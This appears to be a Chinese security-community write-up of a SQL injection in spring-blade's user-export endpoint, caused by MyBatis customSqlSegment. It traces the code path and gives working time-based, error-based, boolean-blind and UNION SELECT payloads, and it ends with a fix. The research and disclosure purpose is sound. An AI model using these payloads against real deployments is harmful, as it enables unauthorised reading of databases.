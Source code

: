 

# 奇安信攻防社区-spring-blade SQL 注入漏洞

### spring-blade SQL 注入漏洞

spring-blade SQL 注入漏洞挖掘实战

# spring-blade SQL 注入漏洞

## 0x01 漏洞描述

在 mybatis 中，可能造成 SQL 注入的写法为${，原因如下：

![](assets/1703152950-267848d4438af30e0777cec0352f2380.jpg)

所以，在 mapper.xml 中搜索${开头的内容。

![](assets/1703152950-123d052be24ef83c5f112f077091b56c.jpg)

其中，  
${ew.customSqlSegment}  
表示自定义 SQL 语句，我们往上跟，看这个 SQL 语句怎么来的。

![](assets/1703152950-d9b0329bab36eb2ac74a626e53014b01.jpg)

ew 参数是一个 User 类型的 Wrapper，看下这个函数在哪里被调用了，于是找到：  
src/main/java/org/springblade/system/user/service/impl/UserServiceImpl.java

![](assets/1703152950-3417db611f1d4284cff16c58e2124161.jpg)

往上层找到 exportUser 的调用。  
src/main/java/org/springblade/system/user/controller/UserController.java

![](assets/1703152950-dc1fe3f13bcd5587ce7338dc830d289f.jpg)

在 UserController 中将用户输入的数据转化为 UserEntity，然后传入的**exportUser**函数。  
调用链如下：

1.  用户输入数据，构建成 UserEntity。
2.  将 userEntity 带入到 userService.exportUser 中
3.  userService.exportUser 函数中，将 UserEntity 又带入到 baseMapper.exportUser 当中
4.  baseMapper.exportUser 中根据 userEntity 构建 SQL 语句（将 userEntity 的属性转化到 where 条件中）。

所以用户可控内容到了 SQL 语句当中，那么，我们应该怎么利用呢，比如我传入 account=admin' ,最后构建的 SQL 语句为：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where account=?
```

因为：mybits 在处理${ew.coustomSqlSegment}的时候，会将 value 进行预编译，如下：

![](assets/1703152950-25773937b609aea1f3c2a1d3d60773d7.jpg)

那么该怎么利用呢？我们可以观察到 account 也就是属性名是直接添加到 SQL 当中的，也是没有被单引号包裹的。所以我们可以传入 1-sleep(5)=1，构建出来的 userEntity 中会有一个 1-sleep(1) 的属性名，其值为 1，然后将 userEntity 拼接成的 SQL 语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user where 1-sleep(5)=?
```

从而实现注入。我们看效果吧。

![](assets/1703152950-79a5200d5efaac254c1b727c0e6f6cce.jpg)

延迟 18s，主要原因在于 SQL 语句：

```sql
SELECT id, tenant_id, account, name, real_name, email, phone, birthday, role_id, dept_id, post_id FROM blade_user
```

有 6 条记录，每条记录都会执行一次 sleep(3)

![](assets/1703152950-d80e9a1cafdcd75954143cc1f017670f.jpg)

其他利用方式。  
盲注确实有点恼火，比较慢，那么能不能转化成其他的利用方式呢？

-   报错注入：

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克]&account=&realName=&1-updatexml(1,concat(0x5c,database(),0x5c),1)=1 
```

![](assets/1703152950-833f947885f05fc95627348aa3b1deb7.jpg)

-   布尔盲注

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d1,1,0)=1 # false，所以导出的数据为空，excel 大小会变小 
```

![](assets/1703152950-d290a860f361ca0451bfe3db0a87d5a3.jpg)

```php
/api/blade-user/export-user?Blade-Auth=[jwt马赛克] &account=&realName=&1-if(1%3d2,1,0)=1 # true，所以导出的数据不为空，excel 大小会变大 
```

![](assets/1703152950-ced01c7c6e9ac166fe50e8549a9ae0b8.jpg)

-   联合查询

```php
/api/blade-user/export-user?Blade-Auth=[jwt-masaike]&account=&realName=&account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a=1
```

![](assets/1703152950-a89d3e865f406c00fd85528f49482d8b.jpg)

Payload 解析：

![](assets/1703152950-3c7e5a29f3532531c55730547dd69327.jpg)

我们输入-=1 的时候，会在 where 条件后，用括号包裹两个条件，然后产生两个预编译位。所以我们既要闭合括号，又要在注视符前埋下两个预编译位。从而产生初步 payload：

```php
account+like+?+and+is_deleted+%3d+?)--+a |
```

然后加入我们的 union select

```php
account+like+?+and+is_deleted+%3d+?)union+select+1,2,3,4,5,6,7,8,9,10,11,12--+a 
```

然后报错：

![](assets/1703152950-f70b75aa95437e84676374a45a6e4b13.jpg)

数据类型不一致，因为 9 所在位置是时间戳类型的，所以用 mysql 的时间戳函数填充到这。

```php
account+like+?+and+is_deleted%3d?)union+select+1,2,3,user(),5,6,7,8,from_unixtime(1451997924),10,11,12--a 
```

![](assets/1703152950-9118f14e62dea2cdd924c760b019f743.jpg)

导出成功，然后看 excel 就可以看到 user() 的执行结果。

![](assets/1703152950-073437154d4b95b3be04032d93165cc7.png)

## 0x02 修复建议

在构建 entity 时候，判断前端传入的 map 中是否有 entity 本身不存在的属性，如果有直接忽略掉，不将其拼接到 SQL 中。
